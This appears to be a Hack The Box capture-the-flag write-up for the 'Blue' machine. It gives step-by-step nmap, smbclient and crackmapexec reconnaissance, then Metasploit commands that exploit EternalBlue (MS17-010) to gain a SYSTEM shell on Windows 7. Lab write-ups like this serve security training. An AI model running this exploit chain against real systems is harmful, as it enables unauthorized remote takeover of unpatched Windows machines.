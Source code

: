 # Blue      

![Blue](./Screenshots/bluelogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/bluenmap.png)
![nmap](./Screenshots/bluenmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
Microsoft Windows RPC service used for remote procedure calls.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service, used for sharing files/printers over a Windows network.

### **445/tcp (Microsoft-DS)**
SMB service on Windows 7 Professional SP1, part of the WORKGROUP domain.

### **49152-49157/tcp (MSRPC)**
Dynamic RPC ports used for additional Microsoft Windows RPC communication.

We can see that **SMB** is open.

### smbclient

First of all, it is always worth just searching the resources yourself, even if it does not give any result. Sometimes we can get interesting informations.

Type:

```
smbclient -L \\\\{target ip}\\ --no-pass
```

to see `Sharenames`.

![SMB](./Screenshots/bluesmb.png)

The only `Sharename` that we can fully access and contains something that looks interesting is `Users`.

To open it, type:

```
smbclient \\\\{target ip}\\Users --no-pass
```

![SMB](./Screenshots/bluesmb2.png)
![SMB](./Screenshots/bluesmb3.png)

I searched all of this using tools and there was nothing that could really help.

Time to look for some **exploit**.

### crackmapexec

I typed:

```
crackmapexec smb {target ip}
```

![crackmapexec](./Screenshots/bluecrackmapexec.png)

**SMB Details**: 
   - `signing:False`: SMB signing is disabled, making it **vulnerable** to man-in-the-middle (MITM) attacks.
   - `SMBv1:True`: The server supports SMBv1, a protocol known for serious vulnerabilities like **EternalBlue**.

As machine name is **Blue** we know where we will hit.

**EternalBlue** is a critical exploit developed by the NSA and leaked by the Shadow Brokers in 2017, targeting a vulnerability in the **SMBv1 protocol** on Windows systems **(CVE-2017-0144)**. It allows remote code execution, enabling attackers to gain unauthorized access to vulnerable machines without authentication.

**EternalBlue** was famously used in large-scale cyberattacks like **WannaCry** and **NotPetya**.

### SearchSploit

```
searchsploit EternalBlue
```

![SearchSploit](./Screenshots/bluesearchsploit.png)

There are several exploits for this vulnerability.

Remember that our target system is **Windows 7**.

### Metasploit

In order:

```
msfconsole
```

```
search EternalBlue
```

![Metasploit](./Screenshots/bluemetasploit.png)

copy:

```
exploit/windows/smb/ms17_010_eternalblue
```

and type:

```
use exploit/windows/smb/ms17_010_eternalblue
```

then:

```
show options
```

![Metasploit](./Screenshots/bluemetasploit2.png)

We will have to set up `RHOST` and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.

![Metasploit](./Screenshots/bluemetasploit3.png)

We have a shell.

*If you want to have `Windows` shell type `shell` and press enter. I did it only after capturing the flags because I wanted to navigate through system by `Unix` commands as `Metasploit` makes it possible.*

![whoami](./Screenshots/bluewhoami.png)

We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Users\haris\Desktop` path.

![flag](./Screenshots/blueuserflag.png)

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop` path.

![flag](./Screenshots/bluerootflag.png)

### Paste the flags

![pwned](./Screenshots/bluepwned.png)
